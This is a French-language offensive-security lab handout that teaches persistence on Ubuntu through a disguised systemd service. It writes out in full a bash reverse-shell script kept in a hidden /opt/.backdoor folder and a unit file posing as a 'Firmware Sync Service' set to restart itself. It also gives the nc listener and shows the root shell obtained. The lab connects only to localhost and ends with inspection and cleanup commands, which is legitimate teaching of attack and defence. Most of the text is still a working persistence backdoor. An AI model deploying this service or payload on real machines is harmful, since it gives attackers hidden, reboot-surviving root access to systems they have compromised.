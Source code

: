 

# **TP Offensif – Persistance via `systemd` (1 machine locale)**

**Cours : Cybersécurité Offensive – TP sur les services malveillants**

---

## **Résumé pédagogique**

Vous allez créer un **faux service systemd** sur **Ubuntu 22.04**, qui lance un **reverse shell local** vers `127.0.0.1:4444` (donc la machine elle-même).
Vous écouterez le port avec `nc` pour **voir le shell apparaître** à chaque exécution du service, **même après un reboot**.

---

## **Matériel requis**

* **1 seule machine virtuelle Ubuntu 22.04 Desktop ou Server**
* Aucun accès Internet requis
* Aucun réseau requis
* 2 terminaux ouverts en parallèle

---

## **Schéma logique ASCII**

```
+----------------------------------------------------------+
|  Machine Ubuntu 22.04 (unique)                           |
|                                                          |
|  [Terminal 1 - Attaquant local]                          |
|     nc -lvnp 4444   <== Shell Bash (reverse)             |
|                                                          |
|  [Terminal 2 - Service]                                  |
|     systemd --> bash -> /dev/tcp/127.0.0.1:4444          |
+----------------------------------------------------------+
```

---

# **Étapes détaillées**

---

## **Étape 1 – Préparation de l’écoute (terminal 1)**

Ouvrez un terminal, tapez :

```bash
nc -lvnp 4444
```

Laissez ce terminal ouvert. Vous attendez une connexion.

---

## **Étape 2 – Création du script malveillant (terminal 2)**

1. Créez un dossier discret :

```bash
sudo mkdir -p /opt/.backdoor/
```

2. Créez le script :

```bash
sudo nano /opt/.backdoor/reverse.sh
```

3. Collez ce contenu :

```bash
#!/bin/bash
bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```

4. Enregistrez et quittez (`Ctrl+O`, `Enter`, `Ctrl+X`).

5. Rendez le script exécutable :

```bash
sudo chmod +x /opt/.backdoor/reverse.sh
```

---

## **Étape 3 – Création du faux service systemd**

1. Créez le fichier :

```bash
sudo nano /etc/systemd/system/systemd-firmware.service
```

2. Collez ce contenu :

```ini
[Unit]
Description=Firmware Sync Service
After=network.target

[Service]
ExecStart=/opt/.backdoor/reverse.sh
Restart=always
RestartSec=5

[Install]
WantedBy=multi-user.target
```

3. Enregistrez et quittez.

---

## **Étape 4 – Activation du service**

1. Recharger systemd :

```bash
sudo systemctl daemon-reload
```

2. Activer au démarrage :

```bash
sudo systemctl enable systemd-firmware
```

3. Démarrer immédiatement :

```bash
sudo systemctl start systemd-firmware
```

---

## **Étape 5 – Observer le shell**

Retournez dans le **terminal 1** (où `nc` est en attente).
Vous devriez voir apparaître :

```
Connection from 127.0.0.1
bash-5.1$
```

Tapez :

```bash
whoami
```

La réponse sera :

```
root
```

Vous avez donc **obtenu un shell root**, lancé par le service systemd.

---

## **Étape 6 – Test de persistance**

1. Fermez le terminal 1 (`Ctrl+C`)
2. Redémarrez la machine :

```bash
sudo reboot
```

3. Une fois redémarrée, ouvrez immédiatement un terminal et relancez :

```bash
nc -lvnp 4444
```

En quelques secondes, le shell s’ouvre **automatiquement**.
C’est la **preuve que le service est persistant**.

---

## **Étape 7 – Analyse**

1. Afficher l’état du service :

```bash
systemctl status systemd-firmware
```

2. Afficher le contenu :

```bash
systemctl cat systemd-firmware
```

3. Consulter les logs :

```bash
journalctl -u systemd-firmware
```

---

## **Étape 8 – Suppression et désinfection**

```bash
sudo systemctl stop systemd-firmware
sudo systemctl disable systemd-firmware
sudo rm /etc/systemd/system/systemd-firmware.service
sudo rm -rf /opt/.backdoor/
sudo systemctl daemon-reload
```

Vérification :

```bash
systemctl list-units --type=service | grep firmware
```

Aucune sortie = suppression réussie.

---

## **À quoi sert cette attaque ?**

Elle permet à un attaquant qui a obtenu une fois l’accès root :

* De **rester dans le système discrètement**
* De **reprendre le contrôle après redémarrage**
* D’utiliser un **mécanisme système légitime** (`systemd`)
* De **camoufler l’exécution** dans les services
